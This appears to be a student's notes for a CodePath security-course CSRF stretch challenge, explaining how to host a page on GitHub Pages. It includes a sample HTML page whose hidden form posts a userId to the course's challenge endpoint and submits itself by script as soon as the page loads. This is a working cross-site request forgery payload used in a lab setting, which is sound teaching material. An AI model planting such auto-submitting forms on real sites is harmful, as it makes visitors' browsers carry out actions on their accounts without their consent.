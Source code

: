 Needed to host a webpage for Unit 2's CSRF2 (Stretch Challenge): adding onemethod using github
Needed to make sure to publish the page from settings and pages


Sample HTML Script:

###<form name="csrf" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
    <input type="hidden" name="userId" value="YOUR TOKEN">
    <input type="submit">
</form>
Hello World
<script>document.csrf.submit();</script>###


***Make sure to change the value to the same CSRF1 ID provided within the challenge. This is unique to me.***

